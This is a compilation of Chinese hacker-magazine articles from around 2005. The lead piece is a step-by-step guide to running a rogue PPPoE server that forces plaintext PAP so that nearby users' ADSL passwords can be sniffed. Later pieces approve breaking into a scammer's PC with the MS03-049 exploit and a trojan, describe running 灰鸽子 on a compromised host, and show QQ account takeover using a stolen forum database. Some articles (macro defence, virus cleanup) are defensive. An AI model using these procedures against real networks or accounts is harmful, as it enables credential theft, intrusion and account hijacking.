发现阶段有4个步骤，当此阶段完成，通信的两端都知道PPPoE SESSION_ID和对端的以太网地址。它们一起定义一个唯一的PPPoE会话。这些步骤包括：客户端广播一个发起分组（PADI），一个或多个PPPoE服务器发送响应分组（PADO），客户端向选中的服务器发送请求分组（PADR），选中的PPPoE服务器发送一个确认分组（PADS）给客户端。当客户端接收到确认分组，它可以开始进行PPP会话阶段。当PPPoE服务器发送出确认分组，它可以开始进行PPP会话。客户端在指定时间内没有接收到PADO，应该重新发送它的PADI分组，并且加倍等待时间，这个过程会被重复期望的次数。如果客户端正在等待接收PADS，应该使用与客户端重新发送PADR相似的超时机制。在重试指定的次数后，主机应该重新发送PADI分组。PPPoE还有一个PADT分组，它可以在会话建立后的任何时候发送，来终止PPPoE会话。它可以由客户端或者PPPoE服务器发送。当接收到一个PADT，不再允许使用这个会话来发送PPP业务。在发送或接收PADT后，即使正常的PPP终止分组也不必发送。PPP对应应该使用PPP协议自身来终止PPPoE会话，但是当PPP不能使用时，可以使用PADT。一旦PPPoE会话开始，PPP数据就可以以任何其他的PPP封装形式发送。所有的以太网帧都是单播的，身份验证是发生在会话阶段的。PPPoE会话的SESSION_ID一定不能改变，并且必须是发现阶段分配的值。

从上面的过程我们需要注意以下两点。

- 1. 发现阶段是广播方式进行的，会话阶段是单播。  
- 2. 客户端通常选择反应快的 PPPoE 服务器进行身份验证和接入。

什么是反应快？我们可以理解成客户端将与最近的 PPPoE 服务器进行身份验证，这就是今天要说的关键。如果你自己架设一个 PPPoE 服务器，那与你同一交换机（通常是一个楼层）的用户都将会选择这个服务器进行接入和身份验证，而不会去找远方的服务器！于是，这时至少同一交换机的用户账号和密码将自动送上门来，你只管开一个 sniffer 软件就可以轻而易举地获得这些账号和密码。

可能你要说，怎样做 PPPoE 服务器呢？难不成我还要去买一个硬件东西，这样是不是有点得不偿失，毕竟一个硬件形式的 PPPoE 服务器价格不菲。呵呵，不必沮丧，如果真要去买一个硬东西，也不会有这篇文章了。既然路由器都可以在操作系统上实现，PPPoE 服务器为什么不可以？这里就将把你的路由与远程访问服务变成一个 PPPoE 服务器，这也是本文真正要说的。

为 RRAS 增加 PPPoE 服务功能的具体过程如下。首先要保证你的“PPPoE 服务器”是一台 Windows 2000/2003 Server，我这里用的是 Windows Server 2003，因为将会用到它的“路由与远程访问”服务（实际上使用 Windows 98、Windows XP 等都行，但操作比较复杂，这里就略过）。下面是具体步骤。

#### 1. 启用路由与远程访问服务

默认情况下，路由与远程访问服务是没有启用的。从“管理工具”中运行“路由与远程访问”管理单元，然后在窗口中右击服务器图标，选择“配置并启用路由与远程访问”，在向导里选择“手动配置服务器”。

#### 2. 安装 PPPoE 驱动

这里要安装的是 RASPPPOE_098B 驱动，它可以让你的路由与远程访问服务增加 PPPoE 服务功能。RASPPPOE_098B 下载地址：http://asp.6to23.com/ultradream/raspppoe_098b.rar。下载后安装这个驱动，把压缩包解压到一个目录，右击网上邻居，进入其属性窗口，然后右击其中的本地连接图标，在弹出的属性窗口中选择“安装/协议”，然后选择上面的解压目录，确定安装。安装完成之后你将在本地连接属性中看到“PPP over Ethernet Protocol”条目，如图 3 所示。

#### 3. 使用明文验证

虽然此时你的这台计算机已经是一台 PPPoE 服务器了，但此时你 sniffer 不到明文密码，因为此时客户端与服务器协商结果不会使用 PAP 明文验证协议，我们需要进一步配置以得到明文密码。再次进入 RRAS（路由与远程访问）管理窗口，右击服务器图标，进入属性窗口，选择“安全”标签，在“身份验证提供程序”栏选择“Windows 身份验证”，然后点击下面的“身份验证方法”按钮，取消其他所有验证方法，只选择“不加密的密码（PAP）”，如图 4 所示。确定时会弹出一个对话框，选择“否”即可。


接着定位到窗口中的“远程访问策略”，双击打开第一条策略，这条策略通常就叫“到其他访问服务器的连接”，在它的属性窗口会看到一条名叫“Day-And-Time-Restrictions”的策略，确保它在任何时间都是允许的，然后点击下方的“编辑配置文件”按钮，弹出新窗口，选择“身份验证”标签，与上面一样，只选择“未加密的身份验证（PAP，SPAP）”项。

这样你的工作就完成了，在这台服务器上打开你的 sniffer 软件，开始监听吧，建议使用 Ethereal。结果如图 5 所示，从中可以清楚地看到账号和密码。


#### 后记

请注意，如果你在一个电信 ADSL 拨号环境中安装了这个 PPPoE 服务器，那么你的 ADSL 拨号也将不会成功，因为它不会跑到电信去验证了，所以拨号不会成功。小心别人利用这点在你局域网中进行 PPPoE 拒绝服务攻击啊；另外，用这种方法来获取公司的 ADSL 上网账号和密码简直太容易了，因为公司内网的交换通常都不是“固定端口隔离”的，所以用上面的方法可以很容易监听到密码。与网通一样，中国电信的 ADSL 账号也是随处可用，只要你开通了 ADSL，所以你得小心公司的 ADSL 账号被“内贼”盗取。

当然从上面所讲你也许还可以想到利用这个 PPPoE 做点别的“好事”，比如让它真正成为你公司的一个 PPPoE 服务器，让只有拨号成功的用户才能上网。就像网通一样，当然此时你千万不能把身份验证配置为 PAP 了，我想网通也该改进一下他们的身份验证方法了。

适合读者：脚本爱好者，宏爱好者  
前置知识：VBA 基础

### 防住 Word 中的恶意宏代码

文／图 刘家


黑防第 5 期登载了我的《Word/Excel 内鬼窃密的天堂》一文，在黑防第 6 期，smallrascal 朋友针对我文中窃密的宏，给出了两种破解方法（下文简称为《补》文），并认为第二种用批处理删除 Normal.dot 的方法更合理。《补》文给出的破解，确实能防住代码在全局模板“Normal.dot”中的情况，但 Word 中能运行代码的地方并不只是“Normal.dot”！我在写《窃》文时为了叙述上的方便，所以文中就没有再旁生枝节去谈运行代码的其他暗招。

下面我们来进行验证。


#### 运行代码的典型方法

- 请打开 Word，指向“工具”→“选项”→“文件位置”，如图 1 所示。  
- 找到“启动”路径。


恐怕傻子也知道其中的“启动”两个字是什么意思吧？Office 默认安装时，该文件夹地址为“盘符:\Documents and Settings\用户名\Application Data\Microsoft\Word\STARTUP”，很显然，该文件夹中的 Word 文档，将会在 Word“启动”时自动启动（注意，本文件夹下的 Word 文档，必须是 dot 而不是 doc 才可以运行）！所以，就算每次启动 Word 时你都删掉 Normal.dot，我只要把有恶意代码的 dot 文件保存在这个“STARTUP”文件夹下，仍然可以运行代码以达到我的目的！同样，Excel 中的“盘符:\Documents and Settings\用户名\Application Data\Microsoft\Excel\XLSTART”文件夹与 Excel 中“工具”→“选项”的“替补启动目录”也存在类似利用方式，如图 2 所示。

- 新建 Word 文档，进入“工具”→“宏”→“VB 编辑器”，双击“文档 1”下面的“ThisDocument”。  
- 打开右侧代码编辑窗口。


```vb
Sub FileSave()
    Msgbox "这里是可能的恶意代码！"
End Sub
```

将这篇有代码的文档用任意名称存为 DOT 模板文件，并保存至上述“STARTUP”文件夹内，关闭 Word，稍后随意打开一个 Word 文档，这时候如果你执行一下平时看似平常的“保存”动作，代码就会运行，如图 4 所示。


进入“工具”→“宏”→“VB 编辑器”，看一下左边“工程资源管理器”中，怎么样，你刚才另存的那个 DOT 文档已经神不知鬼不觉地在后台运行了吧？结论：光删“Normal.dot”是不行的。

> 1. 这个范例将宏命令为“FileSave”，就是 Word 内置的“保存”命令名称，所以，执行“保存”命令，将会运行该宏。  
> 2. 在编完代码后执行“保存”可能已经不能正常保存了，可以先关闭文档，利用关闭文档时弹出“是否保存文档”对话框来执行保存。  
> 3. 在验证时，如果报“宏不能运行”的错，可先将宏安全设置降低再试。

#### 应该“守”住哪些细节

在这里，请大家注意一下图中的“用户模板”与“工作组模板”两个位置。“用户模板”就是“Normal.dot”本地全局模板存放的位置；而“工作组模板”如果在局域网内定义了位置，那么每位工作组成员在启动 Word 时都会运行“工作组模板”中的模板。

同样在黑防 6 期，1860 朋友介绍了如何删除系统临时备份文件来防止泄密。文中提到的 Word“临时备份文件”的路径，实质是图中“自动恢复”文件夹所指向的地址。

好了，现在我们的思路应该已经很清楚了——要防止恶意 Word 宏代码，必须重点关注这几个文件夹。只要这几个文件夹是“干净”的，就没什么可怕的。

但是不要忽视“更改”按钮。如果模板默认路径被改动（例如从 `...\Templates` 改到 `C:\Windows\`），那么恶意 `Normal.dot` 仍可能在新路径运行，导致只清理默认目录并不彻底。

#### 我的“防守”之道

- 1. 删除全局模板“Normal.dot”。  
- 2. 删除 Word 启动文件夹“STARTUP”下可能存在的任意 DOT 文件。  
- 3. 在前两点基础上，检查并处理被篡改的默认路径位置。

```vb
On Error Resume Next
Set Word = CreateObject("Word.Application")
APATH = Word.NormalTemplate.Path
BPATH = Word.StartupPath
Word.Quit
Call deldot(APATH)
Call deldot(BPATH)

Sub deldot(fldrpath)
  Set fso = CreateObject("Scripting.FileSystemObject")
  Set fldr = fso.GetFolder(fldrpath)
  Set sf = fldr.Files
  For Each fl In sf
    fl.Delete
  Next
End Sub
```

你可能注意到了，上述代码没有直接处理“临时备份文件”所在文件夹。因为在 Word 2000 以上版本，临时文件并非固定在某个统一目录，而是与当前文档所在目录相关。

验证方法是：打开文件夹选项，显示隐藏及系统文件；编辑并多次保存文档，观察文档所在目录的临时文件变化。由于位置不固定，清理时可通过搜索 `~tmp` 等模式再删除。

- 1. 很多宏代码依赖 FSO 对象，普通办公环境可考虑在“运行”中执行 `regsvr32 scrrun.dll /u` 注销组件。  
- 2. 启动参数 `/a` 可在某些场景下阻止加载常规模板与加载项。  
- 3. 打开可疑文档前按住 `Shift` 再启动文档，效果接近 `/a`。

VBA 结合 WSH 后，宏攻击不只局限于“文档泄密”，在局域网环境中还可进行更复杂操作。应从模板路径、启动项、临时文件与组件依赖多方面综合防守。

```vb
On Error Resume Next
Set Word = CreateObject("Word.Application") ...
```

### 一波 N 折的 QQ 报复


适合读者：网民  
前置知识：Windows 溢出基础

文/图 曾军/dangguai27 何永强

写这篇文章的目的单一，就是想通过我身边发生的例子来告诉广大 QQ 民朋友一定要警惕现在日益猖狂的 QQ 诈骗行为，如果发现了，一定要和其周旋到底，给他深刻的教训！

#### 事件起因——钱财被骗

事情的起因再普通不过了——QQ 被盗。不是我的，是我同学的前任 GF——NN 的 QQ 被盗窃了。QQ 丢失了其实很正常，但那盗贼哥们竟借以 NN 的名义从 QQ 上向我同学借钱 100，说她朋友出事了急需用钱。由于数量不大，加上又是前任 MM，我同学也不好意思打电话核实，就直接往指定卡上寄去了 100 RMB（哎，可怜啊）。

但事情并没有就此结束，就在当天下午，那盗贼又以同样的方式找我同学说还缺 200。不会吧，NN 以前借钱的时候都没这么直接的，现在怎么变了？我同学下意识地感觉其中可能会有什么问题，于是硬着头皮拨打了 NN 的电话，经过核实，原来 NN 的这个 QQ 号在几天前就被盗了。


图 2

一股被骗的愤怒之气油然而生，不能就这么便宜了那家伙，必须给他点教训看看。于是同学一方面稳住盗贼，说第二天 10 点左右就寄钱，如图 1 所示。另一方面，当然就找到了我，希望我和他一起捉住那家伙，以报一骗之仇。而我，遇到这样的机会，当然义不容辞啦。


图 1

#### 报复思路——双管齐下

要想在网络上逮住盗贼，最直接也是最有效的方式，就是进入他的机器。那样的话，就可以任意惩罚他了。由于答应第二天就寄钱，我们逐渐取得了他的信任。于是，我们朝着解决第一个问题前进：他是在网吧还是自己 ADSL 拨号上网，这对我们下一步行动很重要。

通过聊天，他承认了是自己的 ADSL。到了第二天早上，他上线时我发现他的 IP 和昨天有一点变化，但还是同一个网段，因此基本确信了他是 ADSL 上网的。通过 QQ2005 可以查看其 IP（呵呵，相信他没用代理吧），如图 2 所示。

接下来，可行的路线大概有两条：1）直接通过工具扫描他的机器，如果存在可利用的漏洞，我们就有机可乘了；2）用欺骗的方式给他传个木马，让他运行，也能达到同样的效果。

#### 攻势如潮——收效甚微

好了，整理好思路后，我们开始行动。首先拿出自己编写的端口扫描器（呵呵，自己的东西比较信得过），设置好待扫描的常见 TCP 端口，如图 3 所示。

然后就开始扫描。2 分钟后，扫描完成。晕，什么端口都扫不出来。莫非有个人防火墙在？如果真的有的话，说明他还是具有基本的安全意识，但这对我们来讲却绝对不是一个好消息。


图 3

看来第一条路走不通，只好走木马方案了。发送木马，一是要伪装，二是对方不一定愿意接收，接收了也可能不会执行，而且容易引起他的警惕。对于木马，我也是找了个我们自己做的，平时使用中感觉效果比较好，而且外表封装得不错。

我们随便给木马取了个名字，大概叫做什么“单通道聊天”，而且还骗他说里面有她（NN）最喜欢的一首《一生有你》。大概是怕我们起疑心，他同意了接收木马文件。从聊天中我们感觉他对安全技术不是很了解，于是我们大胆地对他说由于防火墙的存在我传不过去。没想到他爽快地答应关掉防火墙，真是出乎我们的意料。

片刻之后，木马文件传了过去，他也说他已经运行了。由于是反弹木马，我们就一直等待它连接过来。可惜等了半个小时，它还是没连过来。我们故意问他那首歌怎么样，他说不错，只是调子有些走调，还问我是不是自己唱的。郁闷，他根本就没执行那个木马，居然又反被他耍了。

想到他刚才应该是关了防火墙的，那何不再扫描试试？结果还是什么都没有扫描到。看他 QQ，嗯？下线了，莫非关机啦？几分钟后，他又上线了，再看他 IP，哎，又变了。如图 4 所示。


图 4

看来是重新拨号了。不过不要紧，正好重新扫描。呵呵，这次扫出了两个端口 135、139，如图 5、6 所示。


图 5


图 6

接下来，我拿出专用的 LSA、RPC 漏洞扫描工具，扫描结果同样令人失望。到了这一步，看来是两条路线都行不通的了，现在是拿他完全没办法。而对方呢，还一个劲儿地问什么时候寄钱，汗！

#### 峰回路转——控制目标

绝望之际，我想起了以前成功率很高的一个漏洞，ms03-049，也就是 workstation 溢出漏洞。这个漏洞虽然是 2003 年底出现的，但是由于没有爆发大规模的蠕虫病毒，而且要求被攻击的机器系统盘必须是 FAT32 格式才能成功利用，所以很多用户都没注意打补丁。我们没有找到这个漏洞的扫描工具，因此只能直接尝试攻击了，如图 7 所示。


图 7

没什么错误提示，可能有希望！这个工具攻击成功后会在对方机器上开 19800 端口，于是 telnet 上去，如图 8 所示。


图 8

成功！！！真是功夫不负有心人，总算进去了。我们激动地不知道该做什么了，不管那么多了，先试试几个命令 dir、cd，嗯，都可以。同学的话提醒了我：先看看机器上有什么重要的东西没。于是，每个磁盘一一看来，偶然发现 D 盘根目录上有 qq 这个文件夹，继续往下看，有个 v.txt，顺便打开看看，结果是令我们喜出望外，如图 9 所示。


图 9

#### 意外收获——夺回 QQ

呵呵，原来“v”是指 victory（胜利）的意思。他把获取的 QQ 号和修改后的密码都放在这里，其中还包括 NN 丢失的号 449*7114。这下盗贼真是赔了夫人又折兵，我们让他得不偿失。当他发现自己辛辛苦苦盗来的 QQ 们不翼而飞的时候，会不会感觉是上帝之手在后面惩罚他呢。

鉴于法律问题，我们没有进一步破坏他的机器，只是暂且给他一个教训吧。我重新写了个 ws.exe 附在文章后，它的功能是开一个 1234 端口，有兴趣的朋友可以试试，在溢出类利用工具里算是比较好用的。

#### 小结

好了，就先到这里吧。其实这次 QQ 报复中我们用到的技术都是比较基础的，只是在很多时候都需要仔细思考，根据实际情况合理应用罢了。毕竟，人在头脑清醒的时候遇到问题想出的办法会多一些。通过本文，也想提醒广大 QQ 民朋友平时设置 QQ 密码的时候设置复杂一点，不要给那些不法分子机会，否则要想再从狼的口中把失物夺回来还是很困难的哦！

### 用肉鸡和灰鸽子实现内网通

适合读者：入侵爱好者，木马爱好者

前置知识：木马使用基础

文/图 ETY001

最近我的运气还真不赖，偶得一台 1GB 内存的服务器，一时间不知该拿它做什么好。一天，正在使用灰鸽子的我，突然灵光一闪，冒出一个念头，（众读者曰：不知此人冒出何种邪念？）且听我慢慢道来。

准备灰鸽子和肉鸡各一只。灰鸽子中有一个“内网端口映射”功能，如图 1 所示。


不知道大家用过否，我就使用这个功能实现内网通的。首先配置服务端，且看：打开灰鸽子，依次点击“工具”→“内网端口映射”。如图 2 所示。


打开远程映射端口成功。


在“Vport 服务端配置”中，设置控制端口，比如 1989。再在“开机自动运行”前打勾。点“生成服务端配置”，输入文件名，保存，OK！

这样服务端就配好了。下面登录肉鸡，上传运行。（我想这个我就不用说了吧，大家都会）接下来，连接服务端，在如图 2 的窗口中，连接参数里填入你肉鸡的 IP 和你刚才设的端口；“映射设置”中填入相应数据。比如：我想让朋友看到我在自己机器上的主页，于是便在“映射到本机端口”中填入 80，在“将远程端口”中填入你肉鸡没有打开的端口，如 11111。一切设置完毕，如图 3 所示。

点击“连接”，连接成功后，再点“映射”，接着，就能看到提示。如图 4 所示。

激动人心的测试开始了，首先输入“127.0.0.1”测试，如图 5 所示。

接着输入“我的肉鸡 IP:11111”，显示如图 6 所示。


Yeah！测试成功！

这个方法有一个缺陷，就是一次只能映射一个端口，但是我认为总比网上那些收费的内网通好。映射好后，干什么就随你了，放开思路，大胆去想吧！

这是小弟我第一次写文章，如有不对的地方，还请各位大虾指教！Over，收工！

适合读者：病毒爱好者，反病毒研究人员

前置知识：手工杀毒基础

## 手动查杀顽固的 desktop.ion


一个朋友给我打电话，说他们的一台机器这两天变得很慢，重新安装了系统也不行，要我下班了过去看看情况。去了一看，是一台 Windows XP，安装了一个金山毒霸 2005，也没有查到病毒。想了想，像 funlove 的感染文件一类的 PE 病毒应该是可以排除了吧。就顺手打开了一下任务管理器看了看，居然有一个 svchost.dat，这是什么东西？先结束了再说吧。

再习惯性地打了一下 msconfig，在启动里看看有没有什么可疑的东西，可惜没有看到。想了想，有这样的东西应该不会是什么 dll 加载型的木马或者蠕虫放出来的。再看看服务，把“隐藏 Microsoft 服务”选中，居然也没有什么异常的。这下有点儿晕了。好在注册表编辑器还能打开，又看了看几个常见的文件关联项，还是没有改动过的迹象。再查 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon 下的键值也没有。这下有点儿慌神了。

问了问朋友，这是台打印图纸用的机器，也不上网。他和几个同事朋友也就是偶尔玩点儿小游戏，不过有时会用到 U 盘和软盘。听到这儿，想到有些蠕虫会利用 AUTORUN.INF 来加载和传播，这个病毒是不是也是呢？右击 C 盘，果然有一个自动播放（这也解释了为什么刚刚安装了系统又不行了，一双击 D 盘，D 盘上的病毒就加载上了），这下跑不了了。打开文件夹选项，把隐藏受保护的操作系统文件去掉，再选中显示文件和文件夹。明白有疑点后，C 盘打开资源管理器，一看果然有一个 Autorun.inf，再打开这个 inf 文件，里面有一行：open=desktop.ion。再删除这个 desktop.ion（也在根目录下），还有一个 D 盘也如法炮制。再搜索，在 c:\Windows\system32 下有一个 svchost.dat，也一并删除掉。这想这下解决了吧，就很自信地说没有问题了，和他们简单介绍解释了一下。然后朋友请我小搓了一顿，我就回家去了。

原以为这件事情就算完了，没有想到第二天朋友又来电话说他们早上一开机，那两个文件 Autorun.inf 和 desktop.ion 又出现了。而且保证从前一天晚上到现在没有再用过 U 盘和软盘。我再次到了朋友那里，心情非常郁闷，去了以后先给朋友道歉。然后把硬盘的自动播放关了（Windows XP 如何关闭硬盘分区的自动播放功能），把病毒样本带回了家，在 Virtual PC 里跑了一下。仔细一看发现，这个病毒并不像我一开始想的那么简单。

这个病毒卡巴斯基是可以查杀的，报的病毒名称是 Trojan.Win32.VB.us（我个人看这个病毒有很强的传播性，可以看作是蠕虫，瑞星报的病毒名称就是蠕虫 Worm.Fixion.C）。确认是一个木马后，我开始研究这 3 个文件，svchost.dat 和 desktop.ion 是同样的文件。大家可以从这两个文件的 MD5 值上看出来，如图1所示。


图1

我把文件改名，svchost.dat 改成了 svchost.exe 就可以运行了。运行前我们先做一下注册表快照，我用的软件是 RegShot 1.61e5 Final 多国语言版。大家可以看到运行前后，增加了一个很关键的地方：

> HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\ActiveSetup\Installed Components\{0fab90d0-bab8-11d1-994a-0005454fbbc8}\StubPath: "C:\WINNT\System32\fixion.exe"

再找到这个 fixion.exe 比较，还真的是和 svchost.dat 还有 desktop.ion 一样的东西。这个病毒很会伪装。一般找可疑的木马或者蠕虫文件，简单一点儿可以看文件创建时间，可是这个病毒生成文件时会生成和系统文件同样的时间标签。有的朋友可能会看看觉得可疑的文件的版本信息，但是这个病毒还会在版本信息里伪装成微软公司的东西，如图2所示。


图2

知道了这个病毒的运行机制，我第三次跑到朋友那里，这次在安全模式下把这个病毒生成的文件都删了。除了删除文件，再把注册表修改了，关机再开，可恨的 Autorun.inf 和 desktop.ion 终于不再出现了，任务完成。

要预防这种方式传播的病毒，对于 Windows XP，最好的办法就在组策略里关闭自动播放。方法是点击“开始”，在运行栏里输入 gpedit.msc，选择“计算机配置”“管理模板”“系统”，在“关闭自动播放”中设置为启用，如图3所示。


这个病毒也给了我很大的启发：一是以后遇到事情不要想当然，惯性思维会害死人的；二是老话了，不要太过于相信杀毒软件；三是这个木马的加载方式和伪装方式太隐蔽了，以后再处理病毒和自己编写木马时很值得参考。

---

适合读者：网民，手机用户

前置知识：无

## 万元话费如何产生？
## ——剖析手机黑客的设置

文/图 1860

进入了21世纪的新科技时代，手机的普及率几乎达到人人一部，还有的朋友几部呢。但是大家有没有留意到你的手机费用有时候会多几十块呢？而且还每个月都莫名其妙扣掉不少费用？而你自己也记得从来没有订过不明的服务。为什么呢？下面为了给大家解开这个谜团，特意利用相关的短信手机平台测试了一下，让大家明白手机中的“后门”。

首先用百度查找“短信平台”相关字眼，很快就找到不少，如图1所示。

打上用户名与密码。这里是可以注册的，如果你手机余额太多，也无所谓。在用户名上填上手机号码，这里的手机号码一定要11位，如图2所示。

例：137XXXX XXXX，密码就填上“******”。然后弹出对话框提示登录成功，返回了网站首页，如图3所示。


进入后，查看资费说明：如果成功注册手机，每一项服务收取5元费用。服务有短信群发、图片下载（发送）、铃音 MP3 下载（发送）等等。数了下，有相关服务10多种，如果全部服务都订了，那么你的一个月手机扣费就达到了50块以上啦。如果你一条一条地发就另计。一般手机短信平台都是利用 ASP+SQL 数据库的。说到这里，相信有不少朋友知道怎么回事了。没错，就是利用 SQL 数据库验证时绕过密码直接登录。

接着第三步当然就是订服务了，服务有不少呢，如果不订（为人家省下手机费），还可以一条一条发送，如图4所示。填完对方手机号码，点击发送就可以让对方收到你发送的铃声或者图片了。

信息平台存在程序编写不严，导致绕过密码验证成功注册，这样大家的手机余额有时候会不明不白损失。上面提到的用户名也就是手机号码，如果非法者任意输入的话，最后你的手机就被蒙在鼓里消费了。


图4

---

适合读者：网民

前置知识：无

### 浅谈个人信息泄漏

文/图 1860


在21世纪的网络，大家下班回来除了到外面锻炼下身体，到网络上听听歌、看看新闻外，还有部分朋友喜欢到人气极旺的论坛、社区上灌灌水，发表一下自己的见解。大家知道在论坛注册一般都要填写身份 ID、联系方式的 E-mail、QQ、MSN，还有就是取回社区的密码资料等，大家可能还以为这是很普通的，没有什么泄漏可言。但是这里就是个人信息泄漏的开端了。而且对于入侵者来说，这正是采集信息的前奏。信息采集得越多越准确，入侵成功率就越高。

提起 QQ 号码被盗、E-mail 被黑、银行账号内的钱被转移、QQ 号码密码保护被修改，这都是大家上网可能会碰到的事。当然，这些事谁也不想碰到！大家可能会想到，在系统上装杀毒软件、防火墙、定时升级系统补丁，就万事无忧了。其实并不是无忧，前面已经说过，大家在社区上发表见解时注册留下的信息就已经泄漏了80%。还有人家在校友录中也泄漏了不少，例如：cat 用户在论坛上注册，选用 ID 是 cat，联系 E-mail：cat@XXX.COM，提的问题是“我喜欢的动物是什么？”回答是“猫”，还有 QQ：191626XXX，电话号码，出生年月日等，就这么一部分就可能知道了这位论坛用户的资料了。怎么？还不知道！没错，在论坛上，用户是不可能知道大家在注册上的问题与答案的，但是这并不是不可能知道的，可能你注册的论坛有严重的漏洞，让非法者得到了论坛数据库，又或者论坛的 BT 管理员有意查看你的信息……

这问题就出来了。一般入侵者得到了论坛数据库后，第一时间查看并破解管理员账号跟密码，进了论坛或者网站管理后台，有的是想进一步得到主机权限，有的可能是在论坛上挂木马。这样倒没有什么大不了，最多就是自己装个病毒监控就行了。但是也有入侵者并不想得到 WebShell 就算了事，他们还利用数据库里面用户注册的信息进行下一步的信息收集。如果大家填的资料是真实的，那大家的 QQ 号码可能被盗。有朋友会说怕什么，我有密码保护啊，但是你在论坛上注册时填上的取回论坛密码的资料如同 QQ 密码保护一样，这样有密码保护跟没有有什么区别呢？其实泄漏信息就是大家在无形无迹之中留下的。可能大家还不相信吧，好的，下面就用实例说话吧。

首先非法者下载了 X 论坛的数据库 dvbbs7.mdb，下载方法好多种，如利用默认数据库路径（bbs/data/dvbbsX.mdb）或者注库（%5c_conn.inc）得到的。数据列表清楚记录了好多会员曾在该论坛注册时留下来的重要信息，有 QQ 号码、邮箱地址、出生年月，还有就是该论坛设置的问题及回答的答案。细心看了下，数据库列表中有一个会员填写信息非常认真，该填的都填了。好的，现在就拿他来作个测试……我只作测试，大家别作坏事啊，后果自负的！

现在就要利用社会工程学+运气了，进入了腾讯网站中的密码保护修改页面，如图1所示。


图1

接着在号码修改资料栏中依次填上在数据库中得到的重要数据，证件号码就选择了该朋友在论坛上填写的联系电话号码，再填上出生年月、密码提示问题。提的问题一样，就看看回答的是什么了，最好填上的就是该会员的 E-mail。一切填完就到了第二步，就是填写新的密码保护资料。提的问题没改，现在测试嘛，不要做坏事，只是将对方邮箱改下，测试测试，点击下一步，成功了。如图2所示。汗，这不是在线改密码保护吗？唉！这样的密码保护安全强度有多高呢？


图2

看到了吧，将论坛得到的信息在 QQ 修改密码保护上试用，虽然成功了，那试多几个号码吧。在该论坛上有好多会员好认真的，资料填写很全面的，后面测试好几个号码都成功了。只是证件号码有点问题，问题就是利用了出生年月作为证件号码，还有的就是将顺序调换了。例：该会员是在1985年5月26号出生，那证件号就有可能是19850526或者26505891。这个信息可以在数据库中得到，又或者直接到论坛上查看个人资料。如果对方改了，你也可以变换出生年月的排列顺序测试，说不定也可以成功。

利用论坛数据库中的信息来测试 QQ 的密码保护资料修改。大家如果有时间，可以用 MD5 破解工具将论坛中所有用户 QQ、邮箱对应的会员论坛登录密码解出来，可能还有更多意想不到的“惊喜”呢。如果对方 QQ 没有密码保护，而且解出来的论坛密码跟 QQ 密码一致，那就是在线改 QQ 了。

关于这种情况，本人在各个校友录网站也能找到不少信息。在 Google 或百度查查相关字眼“校友录”，有部分网站用陌生人去浏览查看，也能收集不少有用的信息。看到了吧，相关信息不少，大家在毕业的时候或者出来工作了，都争先恐后填写联系信息，怕大家联系不了。但是网站或者论坛安全性也不是很高，而你的 QQ、MAIL、MSN 的相关保密信息也一样，有一天这种“好事”就会落到你身上了。

- 第一，在论坛上注册的信息最好不要填太详细。  
- 第二，论坛的密码最好跟 QQ、邮箱、MSN 的密码不一样；如果记忆力好，可以在各论坛上的密码、QQ 密码、邮箱、MSN 密码设置成各不相同。  
- 第三，设置的各密码保护资料，不要设置得太容易。

例如：我喜欢的植物是什么？答“网络系统”，这样谁也破不了吧！大家看了上面的内容后，觉得你在网络上众多的论坛、网站、校友录，有没有泄漏过相关的信息呢？如果有，快去修改下，免得“好事”接着来！

---

适合读者：免费爱好者，网民

前置知识：无

### 巧用加密工具突破邮箱附件限制

文／图 张萌

自从 Google 推出 Gmail 以来，各式各样的以 G 为单位的邮箱便层出不穷，163 的 2G 邮箱，Yahoo 的 1G 邮箱等等，似乎进入了邮箱的 G 时代。但细心的人很快就可以发现，空间虽然大了，但服务商却把附件大小设置得与邮箱大小不成比例，大多数只有 10MB～30MB，这就使得大邮箱没有用武之地了。这当然不行，所以我们要突破这个大小的限制。

在邮件中，首先如果要发送的附件是图片，那么可以直接插入；如果是其他文件，可就难办了。不要着急，在我们使用各种木马软件时，经常会将各种服务端程序捆绑伪装在图片中，然后将图片发送给朋友查看。何不利用这个道理，将要发送的附件也捆绑在图片中随图片发送出去呢！

#### 原理分析

我们知道这些邮件服务商虽然对附件大小作了限制，但是它们并没有对每封邮件大小作限制。换言之，只要我们的附件不超出限制，那么每封邮件大小是无所谓的。而几乎所有邮件服务商和邮件收发客户端都支持发送 HTML 格式邮件。如果我们能够将原来的附件嵌入邮件的 HTML 文件中，岂不是可以突破这个限制了吗？现在问题则变为如何将各种文件嵌入在 HTML 格式邮件中。

#### 选择软件

那么我们就来对软件进行选择。可以捆绑文件的程序非常多，但很可能会被杀毒软件发觉，造成不必要的麻烦，因此我们应当选择一种“合法”的文件捆绑工具。在我仔细寻找之后，终于发现了 BDV DataHider 这款软件。BDV DataHider 是一款俄罗斯程序员开发的加密软件，可以将任意的数据文件隐藏在图像文件中。除此之外，它还支持密码保护，使文件更具有安全性。这里我通过使用 1.0 汉化版给大家进行演示。

你也可以使用最新的 2.5 版，但它是共享软件！运行后界面如图1所示。


然后分别选择数据文件和图像文件，最后选择“保存已编译图像”（在图像分辨率等处可以设置图像来改变图像大小和清晰度）。

#### 嵌入邮件

这里我们使用 Foxmail 做邮件发送客户端。打开后新建一封邮件，如图2所示。并在这里将邮件格式设置为超文本格式邮件，如图3所示。然后选择红色圆圈所圈的按钮添加刚才生成的图片，接下来就可以直接发送了。


#### 分离数据文件

将得到的图像文件用 BDV DataHider 的“从图像解码”选项打开，然后选择数据文件保存地址即可。

---

脚本小子：2005年6月份的时候，黑防就刊登过一篇文章叫“去黑防钓鱼”。蓝翔小筑和青蛙在文章中提出了有关在黑防投稿过程中的钓鱼可行性，但是没有具体操作。这次古大侠居然顶风作案，在黑防垂钓了。后果是鲜橙加冰 GG 很生气，后果很严重。不过这也反映出钓鱼式攻击的危害和重要性。这方面的攻击和防御技术，实在是很值得大家去研究和探讨。

适合读者：入侵爱好者，网民

前置知识：无

### 黑防垂钓日记

文／图 四川大学信息安全研究所 古开元

说实话，本人平时只热衷于编程，对“钓鱼式攻击”并没有什么研究。在我脑海里，如果要我说出自己在哪看到这5个字的频率最高的话，我只能说在黑防首页了。只要一登录 www.hacker.com.cn，就会弹出下面的广告窗口，如图1所示。

